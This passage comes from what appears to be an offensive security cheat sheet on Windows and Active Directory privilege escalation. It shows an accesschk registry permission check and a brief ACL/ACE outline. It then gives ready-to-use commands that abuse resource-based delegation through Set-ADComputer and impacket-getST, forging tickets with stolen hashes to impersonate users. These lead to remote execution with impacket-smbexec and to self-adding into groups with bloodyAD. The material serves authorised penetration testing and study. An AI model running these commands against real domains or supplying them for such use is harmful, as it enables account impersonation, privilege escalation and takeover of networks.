 ### Checking Registry Entries

```cmd
C:\> .\accesschk.exe /accepteula -uvwqk <REGISTRY_KEY>
```

## Access Control Lists (ACL) / Access Control Entries (ACE)

### General Description

- ACL: Access Control List
- ACE: Access Control Entry
- DACL: Discretionary Access Control List
- SACL: System Access Control List

```console
+ ACL
  - DACL
    - ACE
    - ACE
  - SACL
    - ACE
    - ACE
```

### AddAllowedToAct

```cmd
PS C:\> Set-ADComputer -Identity <RHOST> -PrincipalsAllowedToDelegateToAccount <RHOST>$
```

```console
$ impacket-getST <DOMAIN>/<USERNAME> -spn <USERNAME>/<RHOST> -hashes :<HASH> -impersonate <USERNAME>
$ impacket-getST <DOMAIN>/<USERNAME>$ -spn <USERNAME>/<RHOST> -hashes :<HASH> -impersonate <USERNAME>
$ impacket-getST <DOMAIN>/<USERNAME> -k -spn <USERNAME>/<RHOST> -impersonate <USERNAME>
```

```console
$ export KRB5CCNAME=<FILE>.ccache
```

```console
$ impacket-smbexec -k -no-pass '<DOMAIN>/<USERNAME>@<RHOST>'
```

### AddSelf

```console
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add groupMember '<USERNAME>' '<GROUP>'
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k add groupMember '<USERNAME>' '<GROUP>'
```
